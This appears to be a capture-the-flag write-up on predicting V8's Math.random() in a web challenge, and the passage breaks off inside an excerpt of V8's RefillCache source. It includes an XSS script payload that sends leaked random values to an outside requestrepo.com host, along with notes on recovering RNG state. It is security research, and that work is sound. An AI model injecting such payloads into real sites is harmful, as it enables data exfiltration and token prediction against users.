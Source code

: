 The `uuidv4` function is a fairly common snippet found in various places around the internet, so it's probably quite common for people looking for a quick and easy way to generate random UUIDs. While it's generally known that `Math.random()` is cryptographically insecure, the real-world implications of this is often unclear, especially for "harmless" cases like IDs as opposed to cryptographic key material. I've definitely figured lots of times that it doesn't *really* matter, and the attack would be impractical to pull off in the real world, so who cares, right?

Typical randcrack-solutions require there to be some known info coming from the same random number generator that you can use to recover the initial state, and thus determine past/future outputs from the RNG. However, we don't have anything like this here - the page generates the UUID, uses it, and then does nothing else. There's no way to leak the UUID that was generated (if we could, we'd just get the flag, anyway), so we have exactly *zero* known bits. Total dead end.

## Randcrack (Normal)
However, we do have *one* primitive at our disposal: the free XSS.

Different pages will run in different browser contexts, and thus use different RNG instances (right...?), but it's at least a *start*.

We can use a simple payload like:
```html
<script>fetch("https://[whatever].requestrepo.com/?" + [Math.random(),Math.random(),Math.random(),Math.random()].toString());</script>
```

to leak four values from Math.random(). There's [lots](https://github.com/d0nutptr/v8_rand_buster) [of](https://medium.com/@EsteveSegura/rolling-the-dice-on-security-the-pitfalls-of-using-math-random-in-javascript-3e891d8e4ef6) [literature](https://github.com/PwnFunction/v8-randomness-predictor/blob/main/main.py) about how to crack the Math.random() state given raw outputs, and cracking it with more restricted outputs is only slightly harder.

So, given the output `[0.6895963843546393,0.9233654420197914,0.5116231283488728,0.27029802448375007]`, we can trivially recover the RNG state used to generate those - in this case, `s0 = 4986118481281016007, s1 = 9437780910842312095`.

But this just lets us recover past and future outputs from *this* RNG instance, and that's not useful at all!

Can we go further?

## Seed recovery
Let's take a look at the actual implementation of Math.random(). In V8 (ie. Chromium), it lives in [src/numbers/math-random.cc](https://github.com/v8/v8/blob/be38e4bcd30cc95019cf9083c1d809dbcdbc2081/src/numbers/math-random.cc).

(Or more specifically, the `RefillCache` function is the one doing the relevant work. The actual implementation of Math.random() is inb [src/builtins/math.tq](https://github.com/v8/v8/blob/be38e4bcd30cc95019cf9083c1d809dbcdbc2081/src/builtins/math.tq#L515), but *that* just calls `RefillCache` when the cache needs refilled. The cache has some fun implications by itself, but they're not relevant here.)

The `RefillCache` function looks like this:

```cpp

Address MathRandom::RefillCache(Isolate* isolate, Address raw_native_context) {
  Tagged<Context> native_context =
      Cast<Context>(Tagged<Object>(raw_native_context));
  DisallowGarbageCollection no_gc;
  Tagged<PodArray<State>> pod =
      Cast<PodArray<State>>(native_context->math_random_state());
  State state = pod->get(0);
  // Initialize state if not yet initialized. If a fixed random seed was
  // requested, use it to reset our state the first time a script asks for
  // random numbers in this context. This ensures the script sees a consistent
  // sequence.
  if (state.s0 == 0 && state.s1 == 0) {
```